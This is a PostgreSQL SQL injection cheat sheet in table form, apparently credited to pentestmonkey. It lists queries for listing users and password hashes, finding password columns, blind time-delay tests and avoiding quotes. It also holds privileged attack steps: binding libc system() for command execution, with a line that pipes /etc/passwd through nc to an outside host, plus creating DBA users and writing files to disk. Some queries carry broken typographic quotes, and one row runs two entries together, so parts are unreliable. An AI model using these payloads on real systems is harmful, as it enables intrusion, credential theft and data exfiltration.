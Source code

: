 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT version()|
|Comments|SELECT 1; --comment; SELECT /\*comment\*/1; |
|Current User|SELECT user; SELECT current_user; SELECT session_user; SELECT usename FROM pg_user; SELECT getpgusername();|
|List Users|SELECT usename FROM pg_user|
|List Password Hashes|SELECT usename, passwd FROM pg_shadow — priv|
|Password Cracker|MDCrack can crack PostgreSQL’s MD5-based passwords.|
|List Privileges|SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user|
|Check if you are superuser| SELECT current_setting('is_superuser'); |
|List DBA Accounts|SELECT usename FROM pg_user WHERE usesuper IS TRUE|
|Current Database|SELECT current_database()|
|List Databases|SELECT datname FROM pg_database|
|List Columns|SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)|
|List Tables|SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)|
|Find Tables From Column Name|If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;|
|Select Nth Row|SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from; SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); — returns c|
|Bitwise AND|SELECT 6 & 2; — returns 2; SELECT 6 & 1; –returns 0|
|ASCII Value -> Char|SELECT chr(65);|
|Char -> ASCII Value|SELECT ascii(‘A’);|
|Casting|SELECT CAST(1 as varchar); SELECT CAST(’1′ as int);|
|String Concatenation|SELECT ‘A’ || ‘B’; — returnsAB|
|If Statement|IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A|
|Avoiding Quotes|SELECT CHR(65)||CHR(66); — returns AB|
|Time Delay|SELECT pg_sleep(10); — postgres 8.2+ only; CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .|
|Make DNS Requests|Generally not possible in postgres.  However if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.|
|Command Execution|CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user|
|Hostname, IP Address|SELECT inet_server_addr(); — returns db server IP address (or null if using local connection); SELECT inet_server_port(); — returns db server IP address (or null if using local connection)|
|Create Users|CREATE USER test1 PASSWORD ‘pass1′; — priv; CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time|
|Drop Users|DROP USER test1; — priv|
|Make User DBA|ALTER USER test1 CREATEUSER CREATEDB; — priv; Location of DB files|SELECT current_setting(‘data_directory’); — priv; SELECT current_setting(‘hba_file’); — priv|
|Default/System Databases|template0; template1
|Dollar Strings| Instead of quotes you can alternatively use $$ (duoble-dollar) for quoting stings, of $ (single-dollar) with tag: SELECT $$TEST$$; SELECT $TAG$TEST$TAG$; |
|Write arbitary data to disc | CREATE TEMP TABLE TEST(data text);INSERT INTO TEST(data) VALUES ($$test$$);COPY TEST(data) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$ | 
|Blind CASE query example| SELECT case when (SELECT current_setting($$is_superuser$$))=$$on$$ then pg_sleep(5) end; |

